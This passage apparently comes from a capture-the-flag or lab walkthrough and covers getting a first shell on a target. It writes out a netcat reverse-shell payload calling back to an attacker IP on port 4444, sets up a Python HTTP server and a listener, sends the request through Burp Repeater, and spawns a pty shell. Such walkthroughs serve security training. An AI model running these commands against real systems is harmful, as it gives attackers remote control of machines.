



4.1 Get the first shell
1. On your Kali Machine create a file called “test.txt” with the following content.
system("/bin/nc -e /bin/bash 192.168.12.10 4444");
2. Run a python HTTP server.
Output: 3. Open a “netcat” connection. “rlwrap” is a 'readline wrapper', a small utility that uses the GNU Readline library to allow the editing of keyboard input for any command.
Output: 
4. Go to “Burp Repeater” and send the request you prepared on the previous point.

You'll get a shell on your “netcat” terminal.
Output: 
5. Get a python shell.
python3 -c 'import pty;pty.spawn("/bin/bash")'